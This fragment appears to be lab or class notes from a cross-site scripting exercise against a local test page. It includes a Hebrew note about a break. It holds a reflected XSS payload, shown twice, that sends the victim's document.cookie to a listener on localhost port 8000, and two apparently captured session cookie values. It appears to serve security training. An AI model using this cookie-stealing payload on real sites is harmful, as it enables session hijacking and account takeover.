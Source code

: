 http://localhost/xss_get.php?firstname=<script>window.location.href=`http://localhost:8000/${document.cookie}`</script>&lastname=bbb&form=submit

tal: uttsf54u0jsp29vu1desgs04s5

bee: s7fr0cpqn40koqc1vnnllle844

הפסקה עד 15:10
 

<script>window.location.href=`http://localhost:8000/${document.cookie}`</script>